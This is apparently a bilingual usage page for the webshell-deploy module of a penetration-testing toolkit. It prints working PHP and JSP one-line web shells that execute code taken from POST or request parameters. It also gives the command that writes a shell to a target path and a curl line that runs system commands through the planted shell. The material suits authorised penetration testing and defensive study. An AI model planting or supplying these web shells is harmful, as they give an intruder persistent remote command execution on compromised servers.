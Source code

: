 Generate PHP or JSP web shell with random POST params, then write it to target path.

生成接受随机POST参数的PHP或JSP webshell写入指定文件。

PHP webshell:
```
<?php @eval($_POST['$SECRET_PARAM']);?>
```

JSP webshell:
```
<%Runtime.getRuntime().exec(request.getParameter("$SECRET_PARAM"));%>
```

## Usage
```
cdk run webshell-deploy (php|jsp) <path>
```

## Example
```
./cdk run webshell-deploy php /tmp/shell.php
```

![png](https://static.cdxy.me/cuimage/20210120142415_4SHHbx_Screenshot.jpeg)

After exploit run `curl -d "cdk_sgrytry=system(whoami)"` to connect webshell.